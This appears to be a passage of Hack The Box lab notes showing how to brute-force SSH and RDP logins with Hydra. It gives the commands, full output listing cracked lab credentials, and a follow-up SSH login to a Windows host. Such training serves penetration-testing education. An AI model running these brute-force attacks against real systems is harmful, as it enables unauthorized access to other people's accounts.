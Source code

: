 In order for us to brute force SSH, we can use a program called Hydra. 

```shell-session
realCustampin@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
- You can see that we provided hydra with the Username, Password, and Target IP in the form of 'ssh://TARGET_IP'

Using the Username and Password we just obtained, we can now login to SSH normally
```shell-session
realCustampin@htb[/htb]$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>
```

## Remote Desktop Protocol (RDP)

Operates over TCP 3389 by default

We again can use Hydra to brute force these credentials: 
```shell-session
realCustampin@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```